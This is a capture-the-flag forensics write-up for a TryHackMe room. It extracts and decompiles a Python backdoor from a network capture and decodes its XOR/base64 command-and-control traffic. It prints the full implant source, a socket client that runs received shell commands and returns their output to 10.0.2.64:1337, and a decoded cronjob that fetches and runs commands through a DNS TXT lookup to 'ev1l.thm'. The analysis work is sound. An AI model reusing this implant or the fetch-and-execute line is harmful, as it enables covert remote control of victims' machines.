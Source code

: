 # SeeTwo 

https://tryhackme.com/r/room/seetworoom 

**Can you see who is in command and control?**

## Download the task files

evidence,zip 

only one file in a zip file:

### capture.pcap 

It's a pcapng file. 

Open with NetworkMiner for a quick look.

![networkminer](1-networkminer.png)

3 host 
1 file 

### the file: base64_client.octet-stream 

``$: file base64_client.octet-stream``

base64_client.octet-stream: ASCII text

``$: cat base64_client.octet-stream |base64 -d >> client.step2``

``$: file client.step2 ``

client.step2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7714ff204a0a7dcd042276bab94a99bad4d276f0, for GNU/Linux 2.6.32, stripped

It's an elf binary. Try to find something inside. 

```
./pyinstxtractor-ng client.step2 
[+] Processing client.step2
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 11922732 bytes
[+] Found 47 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: client.pyc
[+] Found 74 files in PYZ archive
[+] Successfully extracted pyinstaller archive: client.step2
```
Decomply client.pyc

```
uncompyle6 client.pyc 
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0]
# Embedded file name: client.py
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "// REDACTED //".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))

# okay decompiling client.pyc
```

We have a key "// REDACTED //" and the encoding method for the communication on Port 1337 from host 10.0.2.64 

## find encoded communication

Open wireshark and use filter: tcp.port == 1337

Follow the TCP stream. Stream3 and Stream4 use a base64 encryption for png files. All TCP segments has a chunk after the png IEND section.   

We have a separator: ``separator = "AAAAAAAAAA"``

check manually the method: 

base64 + XOR with key (Cyberchef)

``OBA3SEEDQmhHMC4JNSdGUiQGCVBQXlRRRgYmAwIVW08LPxYmBQMOQ2hfYmMHPCoDE2pDWUUACglIQlZ3Rw0QAAABZFVhQlhABzwAe2dWaW4LGzNGQVlXRhQNGwMnChhdeA==``

Good result:

``uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)``


OBA3SEEDQmhHMC4JNSdGUiQGCVBQXlRRRgYmAwIVW08LPxYmBQMOQ2hfYmMHPCoDE2pDWUUACglIQlZ3Rw0QAAABZFVhQlhABzwAe2dWaW4LGzNGQVlXRhQNGwMnChhdeA==

uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)

**Collect all communication chunks**

``$: tshark -r capture.pcap -Y "tcp.port == 1337" -T fields -e data |xxd -r -p > capture.base64.full``

I used sublime text editor to cut all not relevant part. 

the goal 

![xor](4-c2-capture_blur.png)

We can answer for all questions except the flag. 

## find the flag

We can see a cronjob with base64 encryption, try it

```
$: echo "L2Jpbi9zaCAtYyAic2ggLWMgJChkaWcgZXYxbC50aG0gVFhUICtzaG9ydCBAbnMuVEhNe1//REDACTED//" | base64 -d
/bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.// REDACTED //.thm)"
```


**DONE**








